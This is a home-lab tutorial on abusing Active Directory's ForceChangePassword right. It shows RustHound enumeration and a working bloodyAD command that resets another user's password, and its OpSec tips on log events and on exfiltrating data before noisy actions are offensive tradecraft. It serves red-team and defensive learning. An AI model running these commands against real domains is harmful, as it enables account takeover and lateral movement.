

# 🔐 ForceChangePassword

This edge indicates that the principal can reset the password of the target user without knowing the current password of that user.

### When This Abuse Occurs

This abuse can be carried out when controlling an object that has **GenericAll**, **AllExtendedRights**, or **User-Force-Change-Password** privileges over the target user.

### Setting Misconfiguration for This

1. **Create a user** `martin`.

2. **Now we want user `jack` to have a forced password change on user `martin`**.

3. Go to the properties of **user martin** and click **Add**.

   

4. Enter **user jack** and click **OK**.

   

5. In the **Permissions** checkbox, check **Change Password** and **Reset Password**.

   

## Enumeration for ForceChangePassword

I will use **RustHound** for data collation, but you can also use **python-bloodhound** or any other tool.

```bash
rusthound --domain furious.local -u jack -p complex1@ --output .
````

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/forced-password-change]
└─$ rusthound --domain furious.local -u jack -p complex1@ --output .

---------------------------------------------------
Initializing RustHound at 00:31:03 on 05/08/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-05-08T04:31:03Z INFO  rusthound] Verbosity level: Info
[2025-05-08T04:31:03Z INFO  rusthound::ldap] Connected to FURIOUS.LOCAL Active Directory!
[2025-05-08T04:31:03Z INFO  rusthound::ldap] Starting data collection...
[2025-05-08T04:31:04Z INFO  rusthound::ldap] All data collected for NamingContext DC=furious,DC=local
[2025-05-08T04:31:04Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
⢀ Parsing LDAP objects: 22%                                                                                                                      [2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-05-08T04:31:04Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-05-08T04:31:04Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 11 users parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_users.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 62 groups parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_groups.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 computers parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_computers.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 ous parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_ous.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_domains.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_gpos.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_containers.json created!

RustHound Enumeration Completed at 00:31:04 on 05/08/25! Happy Graphing!
```

 In the OutBound Object Control of User `Jack`, we can see that **User Jack** has the **ForceChangePassword** permission over **User Martin**.


## Abusing the Attack

Once we’ve identified that user `jack` has the right to forcefully change the password of `martin`, we use **BloodyAD** to execute the attack.

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
```

Example:

```bash
bloodyAD --host "192.168.129.140" -d "furious.local" -u "jack" -p "complex1@" set password "martin" "NewPassword@123"
[+] Password changed successfully!
```

**Explanation:**

This attack abuses the **ForceChangePassword** permission, which allows an attacker to reset a user's password **without knowing their current password**. Once the password is changed, the attacker can impersonate the target user and access resources in the domain using their new credentials.

---

## OpSec Consideration

* **Password reset events** are typically logged (Event ID **4723**, **4724**, or **628** depending on the environment).
* Resetting a password without the user’s knowledge **locks them out** and can **raise suspicion quickly**.
* Ensure you understand the **impact** and have proper authorization before conducting this operation during a red team or pentest engagement.
* Consider exfiltrating useful data before triggering such **noisy** actions, or use it only as a **last resort** for lateral movement.

---


